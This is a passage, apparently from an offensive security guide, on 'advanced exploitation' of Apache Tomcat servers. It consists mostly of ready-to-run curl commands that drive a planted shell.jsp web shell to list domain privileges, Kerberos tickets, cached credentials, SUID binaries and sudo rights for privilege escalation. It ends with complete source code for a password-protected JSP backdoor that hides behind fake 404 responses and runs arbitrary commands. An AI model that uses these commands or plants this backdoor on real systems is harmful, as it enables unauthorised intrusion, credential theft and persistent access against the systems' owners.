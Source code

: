 
## Advanced Exploitation Scenarios

### Enterprise Environment Considerations

#### Active Directory Integration
```bash
# Tomcat commonly runs as domain service accounts
# Check for domain membership and privileges
curl "http://target:8080/shell.jsp?cmd=whoami+/all"

# Identify service account privileges
curl "http://target:8080/shell.jsp?cmd=net+user+tomcat_svc+/domain"

# Look for Kerberos tickets and cached credentials
curl "http://target:8080/shell.jsp?cmd=klist"
curl "http://target:8080/shell.jsp?cmd=cmdkey+/list"

# Check for SeImpersonatePrivilege (potato attacks)
curl "http://target:8080/shell.jsp?cmd=whoami+/priv" | grep -i impersonate
```

#### Privilege Escalation Vectors
```bash
# Check Tomcat service configuration
curl "http://target:8080/shell.jsp?cmd=sc+query+tomcat"

# Look for writable service binaries
curl "http://target:8080/shell.jsp?cmd=icacls+C:\tomcat\bin\tomcat9.exe"

# Check for scheduled tasks running as SYSTEM
curl "http://target:8080/shell.jsp?cmd=schtasks+/query+/v+/fo+list" | grep -i tomcat

# Linux privilege escalation enumeration
curl "http://target:8080/shell.jsp?cmd=sudo+-l"                    # Sudo privileges
curl "http://target:8080/shell.jsp?cmd=find+/+-perm+-u=s+2>/dev/null"  # SUID binaries
curl "http://target:8080/shell.jsp?cmd=crontab+-l"                # Cron jobs
```

### Persistence and Lateral Movement

#### Backdoor JSP Installation
```java
<%@ page import="java.io.*" %>
<%
// Persistent backdoor with stealth features
String cmd = request.getParameter("c");
String auth = request.getParameter("auth");

// Simple authentication
if (!"secretkey123".equals(auth)) {
    response.sendError(404);
    return;
}

if (cmd != null) {
    Process p = Runtime.getRuntime().exec(cmd);
    BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
    String line;
    while ((line = reader.readLine()) != null) {
        out.println(line + "\n");
    }
}
%>
```
